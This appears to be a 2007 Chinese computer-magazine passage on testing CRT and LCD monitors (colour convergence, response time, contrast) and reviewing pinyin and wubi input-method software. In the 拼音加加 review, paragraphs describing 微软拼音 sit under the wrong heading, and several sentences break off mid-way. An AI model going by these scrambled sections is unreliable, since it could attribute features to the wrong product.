色收敛度是指显示器能否将屏幕影像中的红、绿、蓝三个部分的原色正确对准的能力。一般而言若是显示器的色收敛度发生问题，使用者通常会在屏幕的边缘看到模糊的颜色条纹，或者在原来应该是白色的文字或图形的附近出现其它颜色。Nokia Monitor Test用一节一节的红绿蓝三原色构成方格，注意是否变成麻花状，按左键可以切换各段的颜色，注意四个边上是不是有地方会在某一种颜色下看不到，若有的话必须将画面范围缩小一点，直到每个地方都可以完整地看到这三种颜色的线条为止，不然在边缘上会发生收缩的问题。文字工作者自然最关注显示器的文字显示效果，毕竟清晰锐利的文字会让我们的工作更加得心应手，也不容易造成视觉疲劳。Nokia Monitor Test自动为大家生成了大量字体极小的文字，可以使用白底黑字，也可以使用黑字白底模式。要测试显示器的文字显示效果的话，使用Nokia Monitor Test的这一功能是肯定没错的。最后要提醒大家的是，Nokia Monitor Test有一个高压稳定性测试，建议大家没有必要的话千万不要使用它，这对于显示器的寿命有很大的影响！

在使用Nokia Monitor Test之前，我们可以注意一下画面上方由8种颜色组成的方格图，从左到右的顺序依次排列为蓝、青、玫瑰红、粉红、红、赭石、黄、绿。如果你的显示色彩有偏差，那么请立即进行调整。出色的显示器

###### （3）液晶显示器测试——响应时间

与传统CRT显示器明显不同的是，LCD显示器可能存在“余辉”现象。如果响应速度不够快的话，显示动态画面时会有明显的拖影，特别是在那些高速移动的3D游戏或者DVD影片中。为此，很多消费者将响应速度作为选购LCD显示器时最重要的技术指标之一。不过应当指出的是，仅仅通过厂商的标称值判断并不可靠，毕竟这是一项很主观的技术指标。毫无疑问，通过实际游戏以及DVD影片进行测试才是最稳妥的方法。

响应时间是液晶显示器特有的一个性能指标，液晶的显示是通过高分子物质结晶状态的变化导致不同的折射率，来实现白色光线的不同颜色透射，投影在显示器表面，从而获得不同颜色的点。其中这个“高分子物质结晶状态的变化”是一个物理的形变过程，需要一定的时间来完成，这就造成了液晶显示器上的每一个点在得到信号之后，需要一定的形变时间，这个形变的时间就是“响应时间”。

很多读者反应液晶显示器的“响应时间”指标往往模棱两可，媒体宣传资料与商家的说明存在很大出入，其中就很可能是商家蒙蔽不知情的消费者。事实上，液晶的响应时间可以细分为“上升响应时间”和“下降响应时间”，我们常说的响应时间是“上升+下降”的总时间。通常上升响应时间要快于下降响应时间，但无论哪个更快，一定都小于总的响应时间，而一些商家只标明上升（或下降）响应时间，自然看起来会比较小，以此来错误引导消费者。这样的做法更可恶，说错不错，但明显又是误导。

毫无疑问，自己的眼睛才是最可靠的。大家可以进行实际3D游戏的测试进行检验，这才是最为稳妥的方法。当然，游戏的选择应该有针对性。大多数RPG游戏并不能凸现“响应时间”指标，推荐使用大家十分熟悉的FIFA以及Need For Speed进行测试。前者对液晶显示器的“响应时间”要求一般，普通16ms的水准即可展现出令人满意的表现，而后者的要求近乎苛刻，只有真正的8ms产品才能逃过最挑剔的眼睛。对于Quake4、Unreal Tournament、Doom等FPS射击游戏，需要的画面显示速度达到每秒60帧以上才能让人感觉十分流畅，而如今CPU以及显卡的硬件水准也完全能够达到这一要求。根据经验，此时液晶显示器要做到毫无拖影的话，8ms左右的响应时间才能完全满足。

如果在购买时因为种种原因而不方便使用游戏进行测试，那么大家可以采用如下这一简单的方法，条件是使用滚轮鼠标。在一个较长的网页中，反复滚动鼠标滚轮，此时响应时间大于16ms的液晶显示器都会有明显的“叠印”。此外，如果有条件的话，大家还可以考虑借助软件进行辅助测试。Monitors Matter CheckScreen是一款相当不错的液晶显示器测试软件，其Smearing测试单元可以显示屏幕上快速移动的小方块，其中方块后托影的个数代表显示器讯号的响应时间的高低。与实际游戏测试相结合，此时将令测试结果更加可信！如图31，使用Monitors Matter CheckScreen测试响应时间。

除了3D游戏，DVD影片也会对液晶显示器的响应时间提出一定要求，不过这远没有竞速游戏那样苛刻。事实上，理论上响应时间=1/帧速率，由于DVD影片一般固定29fps，因此大约34ms的响应时间能够满足需求。不过在实际计算时，往往需要乘以一个有效系数。响应时间为30ms的液晶显示器每秒钟能够显示33帧画面，这时已经能满足DVD播放的需要，而响应时间为25ms的产品每秒钟能够显示40帧画面，完全满足DVD播放以及大部分视频画面的需要。

理论上的分析确实很简单，但是问题的根源在于厂商的标称值并不一定就是最准确的。用过高端液晶显示器的用户都会有这样的体会，很多品牌产品根本不提及“响应时间”这一概念，但是在实际表现中却十分出色。相反，部分号称拥有25ms甚至20ms的产品却会在动感并不强烈的视频画面中败下阵来。为此，我们还是建议大家使用实际画面进行测试。当然，平静的生活片并没有说服力，建议采用动作片，或者打斗激烈的动画片。

###### （4）液晶显示器测试——色彩对比度与亮度测试

除了液晶显示器的响应时间，我们还不能忘记色彩对比度与亮度这两项同样重要的技术指标。第一次看液晶显示器的用户都会对其较低的对比度与亮度难以适应，而在一些以昏暗背景为主的DVD影片中就更为明显了。

亮度对于液晶显示器而言十分重要，这也是由其本身的成像原理所决定的。然而大家需要明白的是，作为一个主观性更强的技术指标，亮度只能通过自己测试来判断，仅仅根据厂商的数据是毫无意义的，因为所谓的数据基准一直模糊不清。

对比度其实就是屏幕能够显示的“最亮的白色”和“最暗的黑色”的对比程度。较高的对比度可以使文本显示得更加锐利。打个简单的比方，在纯白色的纸上印刷的文字总要比灰色纸上印刷的文字更清晰易读，因为前者的对比度更高。在DVD视频中，对比度的作用十分明显。然而由于人眼的特性，对比度必须在两台显示器对比的情况下才能分清，因此这令购买前的目测判断十分不便。为此，我们还是建议大家使用最简单的“货比三家”的方法，而不仅仅是参考所谓的技术指标。标准是死的，人是活的。当标准无法给我们一个信得过的“说法”的时候，我们就要仰仗自己的眼睛了。通过实际的游戏以及DVD视频测试，在条件允许的情况下，使用测试软件进行辅助，这样心中自然会有明确的答案。

### 风起云涌：2007中文输入法软件完全接触

◆文/风之扬

对于国内用户来说，中文输入法是电脑里必不可少的工具软件，一款优秀的中文输入法软件可以给我们的工作、学习、生活带来诸多便利。不过，不同输入法之间的细微差别往往会带给用户不同的体验，所以人们一旦习惯了某种输入法就很难更换。2007年，输入法软件市场在网络化趋势的影响下正发生着巨大的变化，新的输入法新贵开始出现，并引发了诸多争议。从国内各大下载站点的查询状况来看，汉字输入法大约有几百种，基本上还是拼音输入法和五笔字型输入法的天下，但真正在市场销售，被广大用户所接受的输入法仅占市场的1%左右。2007年以来，随着搜狗拼音输入法、谷歌拼音输入法等软件的不断发展，好学易记、功能全面的输入法开始出现，主流的优秀输入法软件功能开始逐步加强。本专题结合各大站点的调查和下载排行情况，选择了时下最流行的几款输入法软件，通过功能方面的对比以及实用技巧的细致讲解，为用户在选择输入法时提供有益的参考。

#### 一、输入法软件的选用标准

一般来讲，选择输入法或者判断输入法的优劣，我们可以从下面几个方面来考虑：

##### 第一，易用性

易用性即界面符合用户的使用习惯，调用方便。针对不同的使用对象，我们可以这么认为，非专业人员可选择简单的音码，专业打字员应选择形码，非专业打字人员但工作上有些要求的人员可以采用音形码。因此，用户的需求永远是输入法工具必须首先考虑的问题。同时，软件应在界面上尽量符合用户的审美习惯，在视觉上尽量不要干扰用户的输入。

##### 第二，输入效率

输入速度是电脑操作中的重要环节，它甚至决定了用户的工作效率。如果为了输入一个字要冥思苦想很长时间，我们就要考虑换个输入法了。另外，为了提高输入效率，输入法应提供尽量丰富的幕后功能，通过科学化的设计帮助用户提高工作效率。

##### 第三，词库功能

为什么有些词语在某些输入法工具上可以输出？而在有些输入法工具上不可以？这就是词库的差异。特别是对于需要经常输入一些专用名词的用户，一个优秀的词库是必不可少的。例如，对于经常接触互联网的用户来说，网址和电子邮件是要经常输入的内容。另外，随着博客、社区、IM的兴起，对于网络中的热点词语，用户也希望直接得到或通过尽量少的翻页来得到该词语。

> **小技巧**
>
> 词库功能的强弱在一定程度上关系着一款输入法的强弱，要看一款拼音输入法词库功能的品质，包括看其是否支持词库的导入、导出、备份、删除、网络升级等功能。好的输入法不会吝啬用户的权益。方便用户管理自己的个人词库、修改设置、备份数据、自动升级，以及这些兼容其他品牌输入法的词库导入等，都是一款合格的输入法所必须具备的。

##### 第四，智能设置和辅助输入功能

输入法应具有智能提示、语句输入、语句提示及简化输入、智能选词等功能；应支持各种符号输出，对于词库中没有的词或短语，输入法甚至可以搜寻相关的字和词，组成所需的词或短语。以拼音输入法为例，由于中文的同音字很多，当打到同一个音的词时，词语能否组对就是很重要的一件事情了。对于词库中没有的词或短语，输入法应该能够搜寻相关的字和词，帮助组成用户所需的词或短语，这样可以大大减少选词次数。如：输入“人民”时，输入法在候选窗口会自动提示“人民共和国”等词语。

##### 第五，动态升级功能

网络时代，动态升级功能日益重要，即可以自动升级最新最热的词库和最新的输入法主程序，这样我们就能及时获得最新的词汇库了，也就是说词库随着互联网发展而不断增大，而且词语体现是拼音输入法优于形码输入法的关键所在。自动升级包括程序的自动升级和词库的自动升级。通过自动升级，词库能够和互联网保持同步，这对于新词层出不穷的互联网来说是相当重要的。另外，由于用户不会为体积硕大的安装程序埋单，而如今新词热词又层出不穷，在线词库升级也正成为未来输入法的主流。

#### 二、英雄辈出：2007年拼音输入法工具盘点

我们结合用户使用调查以及各大站点下载情况，选择几款拼音输入法软件进行比较分析，具体包括：搜狗拼音输入法、谷歌拼音输入法、紫光拼音输入法、微软拼音2007、拼音加加4.1A等。软件最新版本及下载地址如下表所示。

表1 拼音输入法软件
| 类型 | 版本 | 下载地址 |
| :--- | :--- | :--- |
| 搜狗拼音输入法 | V3.0第二版 | http://www.sogou.com/ime |
| 谷歌拼音输入法 | V1.0.22.31 | http://tools.google.com/pinyin/ |
| 紫光拼音输入法 | V6 beta 3 | http://www.unispim.com/download |
| 微软拼音2007 | V2007 | http://download.pchome.net/utility/lan/ime/35281.html |
| 拼音加加 | V4.1A | http://dir.jjol.cn/Pyjj/ |

##### 1. 搜狗拼音输入法V3.0

推荐指数：★★★★★

搜狗拼音输入法采用了搜索引擎技术，在输入速度、词库的广度、智能组词、易用性设计、外观等方面都有十分明显的改进。

###### （1）易用性

搜狗拼音的安装过程非常流畅，直接选择“下一步”按钮便即可。在界面上，搜狗拼音支持换肤功能，软件内置8种皮肤，用户还可以在输入法主页上下载更多的“皮肤”。此外，软件的切换也很方便，将鼠标移到要输入的地方，使系统进入到输入状态，然后按“Ctrl键+Shift键”切换输入法，按到搜狗拼音输入法出来即可。当系统仅有一个输入法或者搜狗输入法为默认的输入法时，按下“Ctrl键+空格键”即可切换出搜狗输入法。点击状态栏上的小扳手图标，或者在状态栏上面右键菜单即可看到“设置属性”选项，点击后即可打开设置窗口。单击搜狗输入法的“属性”界面，点击“外观”选项卡，即可进行相关设置。如图1所示。

###### （2）输入效率

搜狗拼音输入法的拼音方式有全拼、双拼、模糊音三种输入设置模式，用户可以根据自己的实际需要进行设置。搜狗拼音输入法的候选字、词中设定了二三候选键，这样，每次在编码显示和汉字预选区中出现的第二、三组字词，可通过左、右Shift/Ctrl来快速选择第二、三个候选项，以加快汉字上屏速度。针对文字输入过程中存在的一些生僻字和拿不准音的字词，以及地区方言差异，搜狗拼音输入法的模糊音很好地解决了用户的使用习惯问题。此外，软件

> **小技巧**
>
> 通过使用搜狗拼音输入法的输入统计功能，可以精确统计出用户的打字字数和打字速度。在输入法的状态栏上单击鼠标右键，在弹出的系统菜单中单击“输入统计”选项，即可在打开的“输入统计”窗口中查看到包括“输入总字数”、“最近3分钟打字速度”、“历史最快打字速度”等信息。

###### （3）词库功能

词条出现的频率是词条质量的最重要维度，频率越高则词条是好词的概率越高，并且不同来源的词汇有着不同的可信度。通过词库过滤系统，可以灵活地对源头的词汇进行过滤，同时输出中间每一步的过滤过程，以方便开发人员调整算法。通过分析100亿搜狗搜索网页快照的互联网语料，搜狗建立了丰富的互联网词库，几乎所有的明星、软件、影视、歌曲、动漫、体育、软件、游戏、品牌名词都可以一次打出，这在一定程度上保证了组词的准确性，例如同样是“wsry”，能够准确输出“万事如意”、“卫生人员”、“往事如烟”、“无数人”等词汇。由于词库是开放的、动态的，与传统输入法相比，具有超强的网络词库功能，能够涵盖几乎所有的类别，具有动态词频调序功能，可以将经常输入的字、词自动调整到靠前的位置，在属性设置窗口的“词库”选项卡下，可对“动态词频”功能进行设置，此外，用户还可以通过“用户词库备份”、“用户词库恢复”、“用户词导入”、“删除用户词库”等按钮对用户词库进行备份、恢复、导入、删除等操作。

###### （4）智能设置和辅助输入功能

软件拥有许多高级功能，并且兼容各种输入习惯。软件提供了自定义短语功能，自定义短语在设置选项的“高级”选项卡中，默认为开启状态。点击“自定义短语设置”即可。搜狗拼音具有繁体中文输入、全半角状态、各种特殊符号（包括汉语拼音、希腊字母、俄文字母、标点符号、数字序号、数字符号、中文数字和制表符等）输入功能。

> **小技巧**
>
> 在使用QQ等工具聊天时，我们往往会给对方发送一些比较好玩的字符画文字来增加聊天本身的乐趣，在搜狗拼音输入法中，可直接进行字符画“酷字”的输入。方法为：右键单击输入法提示栏，在打开的右键菜单中选择“搜狗酷字”→“标准模式”选项，即可输入趣味文字。

###### （5）动态升级功能

软件还可以导入其他拼音输入法的用户词库，包括紫光、微软等主流拼音输入法的用户自定义词库。更大的亮点是，软件可以自动升级，网络上出现的新词、热词可以及时添加到输入法中，使用起来十分方便。

总的来看，搜狗拼音在本土化方面做得很不错，给看似平淡的拼音输入法市场注入了新的活力，开创了网络流行词语的先河，尤其是在输入热词和新词、自动升级词库方面显得尤为突出。在保持细节功能完善、外观亮丽个性化的基础上，通过多个版本的快速改进，搜狗拼音输入法V3.0第二版的功能已经有了很大的改进，这些都很符合网络用户的使用特点。比较欠缺的地方在于智能化提示、个性化体验还略有不足，比如在长句输入方面仅仅只有英文提示，输入时往往会感到手足无措，这些细微体验还需要在后续版本中进行改进。

##### 2. 谷歌拼音输入法V1.0

推荐指数：★★★★☆

从第一版推出到现在，谷歌拼音输入法新闻不断，当然，本文关注的焦点依然在其功能上。

###### （1）易用性

安装过程快捷而方便，直接点击“下一步”即可完成安装。软件采用白底蓝字，从个性化外观来看，谷歌拼音输入法设计略嫌简陋，感觉不够精致。另外，谷歌拼音输入法的状态栏稍微偏大，并且不支持换肤功能，不过不同的用户可能会有不同的需求。输入法的切换过程稍显复杂，在隐藏状态栏的情况下打开属性窗口时偶尔会让人犯迷糊。

###### （2）输入效率

谷歌拼音输入法提供了许多有利于提高效率的功能，例如在数字后面可以自动跟小数点、网址输入模式、邮件输入模式、拼音智能纠错等。同时，软件也提供了全拼和双拼的模式。谷歌拼音输入法不仅支持繁体输入，还提供了强大的GBK大字库资源，可以满足用户全方位的拼写需求。由于Windows自带输入法的缘故，目前“智能ABC风格”在用户心目中仍然占据着十分重要的地位，比如有人喜欢横向式的候选词，有人喜欢竖排的候选词，遗憾的是谷歌输入法中是不支持这一功能。另外，值得称赞的是，谷歌拼音能够实现精准的长句输入，输入拼音时能够根据提示自动显示内容。如图2所示。

### 2007年热点技术与应用

> 在谷歌拼音输入法中有一个不错的功能，在中文输入状态，谷歌拼音输入法也可以正常显示一些常见的英文单词，这在输入法软件中确实是一个特色，如输入“student”、“history”等等。

###### （3）词库功能

谷歌拼音输入法同样来自搜索引擎厂商，而且在这方面优势更加明显，因此互联网词库自然也是其宣传亮点之一。借助丰富、强大的网络搜索资源，谷歌拼音输入法将互联网上的流行词汇、热门搜索词一网打尽。从“超女”李宇春、“快男”陈楚生，到新长征路、芙蓉姐姐，流行词汇应有尽有。谷歌拼音词库除了支持导入导出之外，还能让用户使用习惯和个人字典同步在Google账号，让个人用户词库随身而带。不过这个功能需要登录Google账户，对于用户来说显得有些麻烦。目前争议比较大的是，谷歌拼音输入法涉嫌抄袭搜狗拼音输入法词库，此事件一度成为本年度的焦点话题。由此可以看出，谷歌拼音输入法的推出重点应该是在其本土化战略考虑更多一些，这和Google一贯认真的态度还有不少差距。

###### （4）智能设置和辅助输入功能

软件提供了智能纠错、智能组句等功能，如可将tign修正为ting。通过优化词频和智能组句技术，谷歌拼音输入法的首选正确率明显提高，在写邮件、发帖子时，能够根据最优词的词频排序满足用户的书写需求。谷歌拼音输入法提供了直接搜索候选词的功能，拼写输入的同时，只要计算机正连接网络，无需打开浏览器，轻点一键即可快捷查询该词的搜索结果。输入法结合搜索框一举两得，特别适合撰写工作报告、市场情报、学校论文等，文章输入过程中需要一边查找资料一边录入内容时使用。此外，通过提供简写以z、c、s代替zh、ch、sh的功能，输入全拼时也不会受到模糊拼音的影响。单击属性的“拼音模式”选项卡，即可进行设置。

> 除了拼音输入外，谷歌输入法还提供了笔画输入等辅助功能，输入某些生僻字就可以迎刃而解了。操作时，在谷歌输入法状态下，先按“u”打开笔画输入模式，然后使用代码h（横）、s（竖）、p（撇）、n（捺）、z（折）、d（点），依次输入该字的各个笔画。例如，在输入“谷”时，依次按下“upnpnshz”即可显示。

###### （5）动态升级功能

在自动更新词库方面，谷歌拼音输入法目前没有提供自动更新词库功能，而是提供了一个自动同步用户词库功能，关联的途径即用户的Google账号。同步词库时，在打开的工具栏中选择“属性设置”命令，打开“输入法设置”对话框，切换到“自动同步”标签项下，在此输入Google账号邮箱和密码，随后单击“立即同步”按钮即可进行更新。不过，这对没有Google账号的用户或不愿意公开隐私的用户来说，可能会有不少麻烦。

总之，尽管在本地化方面还存在不少问题，谷歌中国推出的谷歌拼音输入法特色还是很明显的，凭借着海量的词库，精准的自动同步功能和超强纠错功能，也迅速赢得了不少用户的青睐。软件的缺陷在于界面略显粗糙，学习新词的功能略有欠缺，而动态升级方面也稍显麻烦。

##### 3. 紫光拼音V6 Beta3

推荐指数：★★★★☆

作为老牌的拼音输入法，紫光华宇拼音始终拥有着大量的使用者。最新版本的紫光拼音输入法V6 Beta3是一个完全面向用户的，基于汉语拼音的中文字、词、短语输入法。

###### （1）易用性

紫光拼音输入法的安装也非常简单，安装完毕即可看到绚丽的新版界面，风格与Windows Vista有些接近。紫光拼音进一步提高了视觉效果，通过图形表现输入法的界面，在表现力以及主题制作上，为用户提供了高度的自由度。软件支持界面“换肤”功能，打开输入法的“设置”对话框，单击“输入法设置”下的“外观设置”连接，在“主题”选项中，即可在默认主题、MSLive、黯淡的月等多种界面主题中进行定制切换。总的来说，此版本的状态栏背景设计更加多样化，不过设置参数的界面显得较乱，条理性比较差。如图3所示。



此外，紫光拼音输入法V6 Beta3还具有以下特色功能：如候选字提示功能、候选字扩展显示功能、音调辅助输入功能、通配符（*）辅助输入、模糊音辅助功能、自动韵母首字母模糊、超级简拼、快速、慢速、固定三种字频/词频变化方式、自定义字置顶功能等，这些功能都大大提高了输入效率。

> 输入过程中，可以使用*来替代部分拼音串，能有效提高长词的输入速度。紫光华宇拼音输入法的词汇长度为：2～15个汉字。有时，我们所能记得的成语或是著名短句，有时却不能及时地将其想起来，而紫光华字拼音输入法就提供了该项功能。例如，键入“ch*c*j”，即可输入“春蚕到死丝方尽”这种短句。

###### （2）输入效率

软件提供全拼和双拼功能，并可以使用拼音的不完整输入。当输入法打开时，在屏幕的右下角显示状态条窗口。状态条窗口也用于输入法的控制操作。按鼠标右键将打开输入法系统菜单，甚至可以直接使用“软键盘”输入各种符号。

###### （3）词库功能

首先，从词库容量上看，紫光拼音收录8万多条常用词、短语、地名、人名以及数字，优先显示常用字词，而字词的使用频度（词频）则从一亿七千万字语料中统计而来。其次，通过直观易用的词库管理工具，可随时进行扩充。另外，在词库的设计上更加科学。只有在输入新词或者词频发生改变时，才会改写用户词库，从而大大减少了用户词库体积增大的几率。软件还提供了多样的短语自定义形式，包括中文字词和短语的自定义、标点符号的自定义、电子邮件地址的自定义和连续序号的自定义、邮件签名的自定义等。这些设计都大大提高了词库的丰富性。

###### （4）智能设置和辅助输入功能

为了适应Windows Vista的用户习惯，新输入法的配置程序通过丰富的界面控制和表现，将输入法的各种配置以及大部分的Help功能集中起来，提供了便捷、准确的输入法配置工具。点击右下角任务栏中的图标，这时屏幕上会弹出状态栏，表示现在已进入紫光拼音输入法状态，在状态栏中可以设置输入法的属性；右键单击按钮，在弹出的菜单中选择“设置”，弹出输入法设置窗口，包含了“基本设置”、“高级设置”、“字词调整”、“模糊音调整”、“功能键设置”、“外观设置”等。

###### （5）动态升级功能

紫光华宇拼音输入法提供了在输入过程中自动造词的功能，而且用户可以随时删除词库中的词，包括删除在系统词库中固有的词。不过，软件没有提供动态网络升级功能。

总的来看，紫光输入法词库大而全，界面美观，造词功能完全符合中国人的输入习惯。首创的候选字提示/显示、音调与通配符辅助、模糊音与超级简拼、词频变化选择和自定义字置顶等强大功能，配合便捷的字词库管理、精炼的用户个人词库以及快速的检索、存储能力，使得紫光华宇拼音的使用更加流畅、更加人性化。同时，软件体积小、占用资源少、对硬件要求低、准确高效的词组输入等特色，这也进一步赢得了用户的好感。不过，过于绚丽的设置界面很容易干扰用户的视觉，在使用过程中很容易“迷路”。

##### 4. 微软拼音输入法2007

推荐指数：★★★☆☆

微软拼音输入法2007是微软公司免费推出的一个汉语拼音语句输入法，软件的特色在于：我们只需用它连续输入整句话的汉语拼音，系统即可自动选出拼音所对应的最可能的汉字，免去了用户逐字逐词进行同音字（词）选择的麻烦。

###### （1）易用性

这一版本对于智能保存用户输入习惯非常不错，而且在体验模式中的联想功能也被强化了。使用智能ABC输入法习惯了的用户可以选择ABC输入风格，对于微软拼音输入法2007已经熟悉的用户依然可以继续体验新版的方便，而喜欢传统输入方式（拼音搭配声调）的也可以保留经典输入方式。软件界面如图4所示。



总体来说，微软拼音输入法2007在输入的准确性上明显提高，并且在人性化方面设计得非常好，不但兼顾了其他拼音输入法用户的习惯，而且大大简化了输入步骤。此外，微软拼音输入法2007能够和Windows XP/Vista的语言栏完美结合在一起，在Office中输入文字时，能方便地完成文字校对。尤其是其整句功能，几乎可以完整地输入一些句子而不用停顿，大大提高了工作效率。不过，使用微软拼音输入法时，明显感觉速度比较慢，经常会出现状态栏干扰的情况，这需要在后面的版本中多多改进。

##### 5. 拼音加加输入法V4.1

推荐指数：★★★☆☆

拼音加加是基于汉语拼音的键盘输入方法，它采用了智能感知技术，将传统的汉字输入法概念演变为流畅的键盘处理方案，是一款特别适合网上使用的输入法。

###### （1）易用性

拼音加加输入法的安装十分简单，依照安装向导，很快就把输入法安装上了。不过，如果在安装过程中稍不留神，浏览器首页就会被更改为拼音加加的主页，这是一个让人比较生厌的地方。

###### （2）输入效率

从使用效率来看，拼音加加全面继承了各种拼音输入法的长处。它支持全拼、双拼、简拼、声母拼词、立即造词、频度调整、模糊音设置等。软件提供了“三重码”技术，辅以左右“Shift”键选择重码，彻底突破拼音输入的瓶颈；并且只需输入阿拉伯数字，即可得到多种中文表达方式。即每次输入候选框中都只显示3个重码，这时按“空格”键输入第一个重码，左“Shift”键输入第2个重码，右“Shift”键输入第3个重码。如图5所示。



###### （2）输入效率

软件具有自学习、用户自造词等优异功能，经过与用户进行很短一段时间的交互操作后，即可适应用户的专业术语和句法习惯，基本上不需要用户选择重码。另外微软拼音输入法还支持南方模糊音输入、不完整输入、自定义词组等许多丰富的特性，完全可满足各种不同用户的需要。不过，新版本输入法有些时候也会出现重复的状态栏提示（一般在IE中），比如输入后出现两条同样内容，这可能会对用户造成一定的干扰。

> 小技巧：
> 手写板提供按照字典输入的功能。在GBK字符集中，用户可以按照汉字的笔画来查询汉字。查找时，只能按照笔画查找汉字来输入。在GB2312字符集中，也就是常用汉字的字符集中，用户可以先选择部首笔画，然后选择剩余的笔画，这样找起来就比较方便了。符号集也很实用，它不但提供标点符号，数字序号和制表符号等常用符号，还有日语的平假名和片假名，以及希腊字母和俄文字母。

###### （3）词库功能

用户的输入法自造词词典可以在Word和输入法之间通用，对中文校对起到非常重要的作用。用户可以从Word和输入法两个接口对输入法词典进行编辑和更新。另外，微软拼音输入法有一个“自造词工具”，用户可以在这里编辑自造词的词条，如双击“拼音输入法”词条，就可以在“词条编辑”中键入自造词，设置快捷键为in，选择多音字的拼音等，这样当你在开启自造词的功能后，输入in就可轻松输入“微软拼音输入法”了。

###### （4）智能设置和辅助输入功能

微软拼音是一种基于语句的智能型拼音输入法，软件提供了全拼和双拼两种输入方式，且这两种输入方式都可以支持带声调、不带声调或二者的混合输入。对于一些特定地区的用户来说，还提供了模糊音设置，对于那些说话带口音的用户，不必担心微软拼音会产生“听不懂”的现象。用户在输入汉字的拼音时，每个字之间一般无需用空格隔开，输入法将自动进行切分。当然，对于有些音节歧义，目前系统还不能完全识别，此时需用音节切分键（Space）来断开。

###### （5）动态升级功能

软件没有提供网络动态升级功能。

###### （3）词库功能

加加输入法的词库收词丰富，允许

#### 三、雄风犹在：五笔和其他输入法

尽管五笔输入法没有了前几年那么风光，从各大下载站点的排行榜来看，王码五笔输入法、极品五笔输入法等版本依然高居榜首，这不能不说是当前中文输入法市场的一个奇特现象。尤其是王码五笔输入法，经过近十年的使用，用户对其依然钟爱有加，说明老牌的输入法工具依然牢牢地占据着一定的地位。鉴于此，本文将介绍几款优秀的五笔和其他输入法软件，以满足不同输入法使用者的需要。

##### 表2 五笔输入法软件

| 类型 | 版本 | 下载地址 |
| :--- | :--- | :--- |
| 王码五笔输入法 | V2007个人免费版 | http://www.wangma.com.cn |
| 极品五笔输入法 | V6.7 | http://www.jipinwubi.com/ |
| 万能五笔输入法 | V7.129 | http://www.wn51.com/ |
| 智能陈桥五笔 | V5.807 | http://www.znwb.com |

##### 1. 王码五笔输入法

推荐指数：★★★★☆

1983年“五笔字型”突破了汉字电脑化的“瓶颈”，被誉为中国文化史上“不亚于活字印刷术的重大发明”。五笔字型在世界上首创了每分钟输入生稿100多个汉字的奇迹，被鉴定为“具有世界先进水平的汉字编码输入技术”。即使在拼音输入法逐渐占据主导地位的今天，其使用范围仍然很广，在各大下载站点的用户累积上，该输入法的用户下载量依然稳居第一。

软件安装过程十分简单，界面仍然保持传统的经典五笔风格。这种输入方法的汉字编码是属于形码一类，它最大的优点是不受汉字读音和识字量的限制，重码率低，便于盲打，输入速度较快。目前五笔字型共分为86版、98版、18030版三个定型版本，前两个版本是以推出的时间而定名的，也就是：86版是1986年推出的；98版是1998年推出的。18030版是按GB18030-2000大字集标准而定名的。它们之间的关系为：86版和98版是两套相互独立的版本，18030版是86版的大字集升级版，并加强了编码规范性。不过，近年来，王码公司也开始推出“王码拼音”版本，这也算是对输入法潮流的一个认同吧。

王码五笔支持国标简体字、BIG5繁体、韩文、日文等多种类型，在造词方面也有不少特色。由于是经典的五笔输入版本，技术规范也相对成熟，更新也慢。值得关注的是，以王码为基础，不少功能更强大的新型五笔输入法开始出现，并赢得了一部分用户的喜爱。

##### 2. 万能五笔输入法V7.129

推荐指数：★★★★☆

从用户使用的角度来讲，万能五笔输入法最吸引人的地方是，它提供一种万能的多元汉字输入法，通过这种输入法，可以克服现有技术的缺点，以多重汉字编码代替传统的单一编码。具体地说，就是在一种汉字编码输入状态下，对一个汉字或词组短语同时存在多种编码输入途径，从而提供更便利、更高效的编码输入，如五笔、拼音、中译英、英译中等。

###### （1）易用性

用户可以自行选择输入法窗口类型，包括标准双行、十行、精致、袖珍及单行等；还可自定义输入法窗口颜色，包括背景及边框。其界面使用简洁而精致，弧形设计充分展示了其现代性的特点。如果有用户不懂的英语单词时，可直接利用万能五笔输入那英语单词，这时就可以方便地看到它的中文意思了。

###### （2）输入效率

软件可利用智能记忆功能，选择调频最近的重码字词到第一位。对于重码的处理，可设置为用分号选择第2个字词，智能ABC上屏模式（按空格后汉字不直接上屏，按一次空格确认才能上屏），重码预留选择模式，而且可对出现重码或重码无效的情况进行声音报警。此外，“万能五笔”支持对自动上屏操作进行设置，自行决定是否使用四码有唯一的字词自动上屏、四码自动上屏、四码截止上屏。个性化设置界面如图6所示。



###### （3）词库功能

从词汇方面来看，用户可以直接使用最熟悉的输入方式，它还具有灵活多样的自造词功能，这样既可以采用自动造词，也可以手工造词。软件支持直接选取屏幕上的文字造词，在输入完3个以上编码后，可按空格键自动造词，可按常规方式手工造词，可用Shift+光标键取字造词。此外，在选定词语后，可选择生成五笔、双拼、全拼、简拼、笔画等各种输入法的编码。而且，用户可选择备份自造词库，导入其他版本的词库，手工导出用户词库或修改用户词库的容量等。

###### （4）智能设置和辅助输入功能

从智能的角度看，凡是用户输入过的重码字或词，万能五笔均会自动记忆，下一次再输入该字或词，自动调频在第一位，用户只需直接敲空格键即可上屏，无需再选数字。万能五笔在这方面表现很出色，这对用户经常输入一些特定的字词非常有帮助，而且万能五笔的智能记忆会根据用户的使用习惯而自动替换，不断更新。需要自定义一些智能规则时，在状态条上打开设置面板即可进行设置。

###### （5）动态升级功能

使用万能五笔多元输入法时，如果现有输入法不能满足需求时，软件提供技术接口给用户导入Windows自带的输入法码表，或用户自己编辑的输入法码表，那就是可自制输入法了。操作方法如下：启动万能五笔，点功能按钮功能菜单上的“导入Windows自带输入法的码表”，会弹出是否同意的选择项。如果不想使用其他的输入法码表要使用万能五笔多元输入法时，选择“不使用Windows自带输入法的码表”，或者在万能五笔的功能菜单中点“恢复默认设置”即可返回默认设置。不过，软件没有提供网络动态升级功能，在网络词汇设置方面还略显不足。

总体上说，万能五笔远远超出了输入法的范畴，它不仅能够直接输入五笔、拼音等输入法，其功能也朝向多元化的方向发展，可在线发送短信，可调用多元化或专业搜索引擎查询选定内容，可进行中译英输出。不过，输入方法的多元化往往也会带来一些不必要的词语干扰，用户在选择词语的过程中，还面临着一个逐步熟悉的问题。

##### 3. 极品五笔输入法V6.7

推荐指数：★★★★☆

软件界面比较简单，比较适合对五笔输入法比较熟悉的用户。在默认的五笔状态下，按分号和逗号可进入拼音状态。若要完全进入拼音状态，则用快捷键切换到五笔拼音模式。在选择重码时，可用程序预置的符号快捷选择指定序号重码。此外还可调节重码的排列顺序，当出现汉字候选窗口时按Ctrl+欲调节至第一位的词组序号。因此，极品五笔输入法重码率低，输入效率也比较高。

